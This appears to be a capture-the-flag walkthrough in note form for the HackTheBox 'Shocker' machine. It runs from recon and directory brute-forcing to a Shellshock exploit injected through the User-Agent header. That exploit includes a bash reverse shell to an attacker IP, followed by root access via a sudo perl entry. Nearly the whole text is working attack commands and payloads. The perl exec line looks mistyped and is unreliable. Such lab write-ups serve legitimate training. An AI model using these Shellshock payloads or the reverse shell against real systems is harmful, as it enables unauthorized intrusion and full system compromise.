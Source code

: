 ping 10.10.10.56
whatweb 10.10.10.56

echo "10.10.10.56 shocker.htb" >> /etc/hosts

nmap shocker.htb
access web page

feroxbuster http://shocker.htb -x php,html
feroxbuster http://shocker.htb -f -n

feroxbuster http://shocker.htb/cgi-bin/ -x sh,cgi,pl -> get /user.sh
access from burp suite -> send to repeater

shellshock
change "User-Agent:" value to:
() { :;}; echo; /usr/bin/id
() { :;}; echo; /bin/ping -c 1 <kali ip>

nc -nvlp 9001
() { :;}; echo; /bin/bash -i >& /dev/tcp/<kali ip>/9001 0>&1

cat /home/shelly
get user.txt

sudo -l
(root) NOPASSWD: /usr/bin/perl

nano root.pl
-------------------
exec "/;bin/bash -p"
-------------------

sudo /usr/bin/perl root.pl

cd /home/root
get root.txt